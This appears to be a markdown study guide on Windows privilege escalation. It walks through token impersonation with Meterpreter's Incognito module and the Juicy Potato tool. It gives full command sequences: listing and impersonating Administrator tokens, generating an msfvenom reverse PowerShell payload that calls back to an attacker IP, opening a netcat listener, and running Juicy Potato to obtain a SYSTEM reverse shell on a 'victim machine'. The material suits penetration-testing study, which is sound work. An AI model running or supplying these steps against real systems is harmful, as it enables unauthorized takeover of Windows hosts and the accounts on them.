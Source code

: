 # Token Impersonation (Windows Privilege Escalation)

### 🔑 What is a Token?

A **token** in Windows is like a **web cookie** — it temporarily grants access so a user doesn't need to re-enter credentials every time they access files or resources.

### 🧠 Types of Tokens

1. **Delegate Token**
    - Created during **interactive logins**
    - Example: When you log in via **Remote Desktop (RDP)** or directly at the machine
2. **Impersonation Token**
    - Created during **non-interactive logins**
    - Example: When you map a network drive or run a logon script

The following are the privileges that are required for a successful impersonation attack

- **SeAssignPrimaryToken:** This allows a user to impersonate token
- **SeCreateToken:** This allows a user to create an arbitrary token with administrative privileges
- **SeImpersonatePrivilege:**  This allows a user to create a process under the security context of another user typically with administrative privilaeges

`token presist until a reboot. When a user logs off, their delegate token is reported as an impersonate token but will still hold all of the rights of a delegate token`

## **Step-by-Step Exploitation**

### **1. Get a Meterpreter Shell**

First establish a foothold on the target machine.

> ⚠️ Requires Meterpreter from Metasploit
> 

### **2. Load Incognito Module**

```
use incognito
```

### **3. List Available Tokens**

- **List available tokens:** `list_tokens -u`
- Look for **delegation** or **impersonation** tokens (especially those of admin/system users)

```
list_tokens -u
```

Example output:

```
Delegation Tokens Available
========================================
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\NETWORK SERVICE
NT AUTHORITY\SYSTEM
SNEAKS.IN\Administrator

Impersonation Tokens Available
========================================
NT AUTHORITY\ANONYMOUS LOGON
```

### **4. Impersonate a Privileged Token**

```
impersonate_token SNEAKS.IN\\Administrator
```

*Note:* Use double backslashes (**`\\`**) in the username

### **5. Verify Your New Identity**

```
getuid
```

### **6. Get a Shell with New Privileges**

```
shell
whoami
# This runs a new shell as the impersonated user.
execute -f cmd.exe -i -t
```

You should now be running as the impersonated user!


# 🥔 Juicy Potato — Privilege Escalation via SeImpersonatePrivilege

### 🔍 What is Juicy Potato?

**Juicy Potato** is a Windows local privilege escalation tool that abuses the **SeImpersonatePrivilege** to gain **SYSTEM-level access** from a low-privileged user account.

### ✅ Requirements

- You already have **a shell** (or Meterpreter session) on the **target machine**
- The user must have the `SeImpersonatePrivilege` and `SeAssignPrimaryTokenPrivilege` **enabled**

### 🧪 Step-by-Step Guide

### 1️⃣ Check User Privileges

On the target machine, run:

```bash
whoami /priv
```

Look for this line:

```
SeImpersonatePrivilege      Enabled
```

> ✅ If it's enabled, you can continue with the Juicy Potato attack!
> 

### 2️⃣ Download Juicy Potato

Download the executable from:

👉 https://github.com/ohpe/juicy-potato

Rename it (for simplicity):

```bash
jp.exe
```

Copy it to the **victim machine**.

### 3️⃣ Create a Malicious Payload

On your **attacker machine** (Kali), generate a reverse shell in `.bat` format:

```bash
msfvenom -p cmd/windows/reverse_powershell LHOST=<Your_IP> LPORT=<Your_Port> -f raw > myshell.bat
```

Replace `<Your_IP>` and `<Your_Port>` with your Kali IP and chosen port.

Upload `myshell.bat` to the **victim machine**.

### 4️⃣ Start Netcat Listener

On your Kali machine:

```bash
nc -nlvp <Your_Port>
```

### 5️⃣ Run Juicy Potato Exploit

On the victim machine:

```bash
jp.exe -t * -p myshell.bat -l 4444
```

- `t *` = Try all available COM types
- `p myshell.bat` = The payload you want to run
- `l 4444` = Port used by the fake COM server (can be any unused port)

### 🎉 Result

You should now get a **reverse shell as SYSTEM** on your Netcat listener!
